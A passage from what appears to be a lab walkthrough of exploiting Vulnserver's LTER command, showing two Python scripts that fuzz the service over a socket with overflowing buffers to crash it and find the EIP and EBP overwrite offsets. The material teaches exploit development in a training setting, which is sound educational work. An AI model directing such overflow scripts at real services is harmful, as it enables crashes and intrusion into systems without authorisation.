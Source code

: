 Lets find it manually using python script used from our previous blog

Fuzzing with the our own pattern to crash the program,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat offset.py 
import socket, sys
# fuzzing for EIP offset
payload=b""
payload+=b"A"*1000
payload+=b"B"*1000
payload+=b"C"*100
payload+=b"D"*100
payload+=b"E"*100
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 offset.py 
```

This will crash the program, where our buffer will get overflowed and fills the Base Pointer and Instruction Pointer with the data from the pattern

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/lter-offset-start.png">
</div>

Here we can see ```EIP``` has a data of ```CCCC```, which is from our payload

Still we need to pass our payloads precisely to hit the ```EIP``` to find its offset

After numerous tries, finally using this script we can overwrite the ```EBP``` and ```EIP``` with our own data

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ cat offset.py 
import socket, sys
payload=b""
# to overwrite buffer
payload+=b"A"*2001
# to overwrite EBP
payload+=b"B"*4
# to overwrite EIP
payload+=b"C"*4
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"LTER ./"+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/LTER]
└─$ python3 offset.py
```
